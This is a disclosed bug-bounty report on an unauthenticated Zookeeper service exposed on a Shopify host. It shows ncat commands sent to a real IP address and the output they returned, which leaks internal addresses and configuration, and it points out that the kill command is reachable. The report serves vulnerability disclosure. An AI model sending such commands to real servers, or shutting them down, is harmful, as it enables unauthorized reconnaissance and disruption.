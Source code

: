 # Unauthorized access to Zookeeper on http://locutus-zk3.ec2.shopify.com:2181

## Report Details
- **Report ID**: 154369
- **URL**: https://hackerone.com/reports/154369
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-27T15:02:34.524Z
- **Disclosed**: 2016-08-08T23:32:31.876Z

## Reporter
- **Username**: mico02
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
What is Zookeeper?
====================
Zookeeper is a coordination service for distributed applications. It allows common services such as naming, synchronisation, configuration management and group services to be managed by a simple interface and It uses a data model of File System on an operating system.

How does Zookeeper relate to Shopify?
====================
While scanning for Open ports on http://locutus-zk3.ec2.shopify.com, I came across port 2181. Grabbing the banner on this port revealed that it's running Zookeeper:
```
Zookeeper version: 3.5.1-alpha-1693007, built on 07/28/2015 07:19 GMT
```
So you found an open, how does this affect Shopify?
====================
Zookeeper installations does not deploy any authentication by default, this makes it very easy for remote attackers to abuse Zookeeper installations, gather information and cause havoc inside Zookeeper clusters by killing the servers (my tests showed that the kill command is available on this instance). After some testing, I found that I was able to run all the commands that are only allowed to be run by admins! Here is a sample of the commands I ran:

>dump: Lists the outstanding sessions and ephemeral nodes. This only works on the leader.

```
$ echo dump |ncat 52.2.164.229 2181
SessionTracker dump:
Global Sessions(7):
0x1053c5850800023       4000ms
0x1053c5850800024       4000ms
0x2000b1ecdeb0160       4000ms
0x2000b1ecdeb0161       4000ms
0x2000b1ecdeb0162       4000ms
0x3055d0251540008       4000ms
0x3055d0251540009       4000ms
ephemeral nodes dump:
Sessions with Ephemerals (5):
0x1053c5850800024:
        /borg/locutus/agents/061e4b6/10.92.1.192:9257
0x1053c5850800023:
        /borg/locutus/agents/061e4b6/10.92.1.118:9257
0x3055d0251540008:
        /borg/locutus/agents/061e4b6/10.92.1.120:9257
0x2000b1ecdeb0162:
        /borg/locutus/agents/061e4b6/10.92.1.87:9257
0x3055d0251540009:
        /borg/locutus/agents/061e4b6/10.92.1.10:9257
Connections dump:
Connections Sets (2)/(7):
Ncat: An established connection was aborted by the software in your host machine. .
```

>envi: Print details about serving environment.

```
$ echo envi |ncat 52.2.164.229 2181
Environment:
zookeeper.version=3.5.1-alpha-1693007, built on 07/28/2015 07:19 GMT
host.name=locutus-zk3.ec2.shopify.com
java.version=1.7.0_79
java.vendor=Oracle Corporation
java.home=/usr/lib/jvm/java-7-openjdk-amd64/jre
java.class.path=:/etc/zookeeper-locutus:/usr/src/zookeeper-locutus/zookeeper/zookeeper-3.5.1-alpha.jar:/usr/src/zookeeper-locutus/zookeeper/lib/commons-cli-1.2.jar:/usr/src/zookeeper-locutus/zookeeper/lib/jackson-core-asl-1.9.11.jar:/usr/src/zookeeper-locutus/zookeeper/lib/jackson-mapper-asl-1.9.11.jar:/usr/src/zookeeper-locutus/zookeeper/lib/javacc.jar:/usr/src/zookeeper-locutus/zookeeper/lib/jetty-6.1.26.jar:/usr/src/zookeeper-locutus/zookeeper/lib/jetty-util-6.1.26.jar:/usr/src/zookeeper-locutus/zookeeper/lib/jline-0.9.94.jar:/usr/src/zookeeper-locutus/zookeeper/lib/jline-2.11.jar:/usr/src/zookeeper-locutus/zookeeper/lib/log4j-1.2.16.jar:/usr/src/zookeeper-locutus/zookeeper/lib/netty-3.7.0.Final.jar:/usr/src/zookeeper-locutus/zookeeper/lib/servlet-api-2.5-20081211.jar:/usr/src/zookeeper-locutus/zookeeper/lib/slf4j-api-1.6.1.jar:/usr/src/zookeeper-locutus/zookeeper/lib/slf4j-api-1.7.5.jar:/usr/src/zookeeper-locutus/zookeeper/lib/slf4j-log4j12-1.6.1.jar:/usr/src/zookeeper-locutus/zookeeper/lib/slf4j-log4j12-1.7.5.jar
java.library.path=/usr/java/packages/lib/amd64:/usr/lib/x86_64-linux-gnu/jni:/lib/x86_64-linux-gnu:/usr/lib/x86_64-linux-gnu:/usr/lib/jni:/lib:/usr/lib
java.Ncat: An established connection was aborted by the software in your host machine.
```

>kill: Shuts down the server. (Haven't tried this one)
```
```

>reqs: List outstanding requests.

```
$ echo reqs |ncat 52.2.164.229 2181
close: Result too large
```

>ruok: Tests if server is running in a non-error state. The server will respond with imok if it is running. Otherwise it will not respond at all.
```
$ echo ruok |ncat 52.2.164.229 2181
imok
```

>stat: Lists statistics about performance and connected clients.

```
$ echo stat |ncat 52.2.164.229 2181
Zookeeper version: 3.5.1-alpha-1693007, built on 07/28/2015 07:19 GMT
Clients:
 /10.92.1.120:35986[1](queued=0,recved=2238053,sent=2238053)
 /10.92.1.10:48851[1](queued=0,recved=2235979,sent=2235979)
 /10.92.1.242:54198[1](queued=0,recved=713623,sent=713623)
 /86.136.100.60:11057[0](queued=0,recved=1,sent=0)
 /10.92.1.253:60423[1](queued=0,recved=2204714,sent=2204714)
 /10.92.1.192:47933[1](queued=0,recved=1926008,sent=1926008)
 /10.92.1.118:37256[1](queued=0,recved=129470,sent=129470)

Latency min/avg/max: 0/0/981
Received: 25813570
Sent: 25813622
Connections: 7
Outstanding: 0
Zxid: 0xc2000016ad
Mode: follower
Node count: 192
```

## Attachments
No attachments
